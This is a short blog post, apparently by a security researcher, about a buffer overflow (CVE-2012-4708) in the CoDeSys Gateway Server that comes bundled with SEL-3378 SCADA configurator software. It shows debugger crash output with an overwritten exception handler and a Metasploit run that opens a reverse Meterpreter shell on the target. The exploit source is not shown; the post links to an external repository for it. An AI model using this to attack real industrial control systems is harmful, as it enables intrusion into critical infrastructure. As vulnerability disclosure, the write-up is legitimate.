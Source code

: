 ```yaml
---
layout: post
title: SEL-3378 SVP Configurator 2
date: 2020-01-07
excerpt: "."
tags: [exploit]
comments: false
---
```

## SEL-3378 SVP Configurator Gateway Server Buffer Overflow
the SEL-3378 SVP Configurator (2.3.7.2-2.2-1) comes bundled with
SCADA 3S CoDeSys Gateway Server (2.3.7.1) which is vulnerable to 
CVE-2012-4708.
```
0:006> g
(2abc.2b68): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
eax=7efcf8fc ebx=01351018 ecx=016ae3c0 edx=514e545a esi=01351018 edi=0233ffff
eip=1000b291 esp=0233f980 ebp=0233f9ac iopl=0         nv up ei pl zr na pe nc
cs=001b  ss=0023  ds=0023  es=0023  fs=003b  gs=0000             efl=00010246
GUtil!GUtilStringToGUID+0xe58:
1000b291 8917            mov     dword ptr [edi],edx  ds:0023:0233ffff=????????
0:001> !exchain
0233f9a0: GUtil!GUtilStringToGUID+9a36 (10013e6f)
0233ff1c: deadbeef
Invalid exception stack at feedface
0:001> !exploitable
Exploitability Classification: EXPLOITABLE
Recommended Bug Title: Exploitable - User Mode Write AV starting at GUtil!GUtilStringToGUID+0x0000000000000e58 (Hash=0x045e1248.0x7f6c794f)

User mode write access violations that are not near NULL are exploitable.
```
simple exploit...
```
msf5 exploit(mc/sel_svp_gateway) > rexploit
[*] Reloading module...

[*] Started reverse TCP handler on 192.168.1.1:9191 
[*] 192.168.1.129:1211 - Trying target Synchrophasor Vector Processor 2.3.7.2...
[*] Sending stage (180291 bytes) to 192.168.1.129
[*] Meterpreter session 4 opened (192.168.1.1:9191 -> 192.168.1.129:49195) at 2020-01-07 10:13:39 -0600

meterpreter > pwd
C:\Windows\system32
meterpreter > 
```
[SEL-3378](https://github.com/ceballosm/scratchpad/tree/master/SEL/SEL-3378)
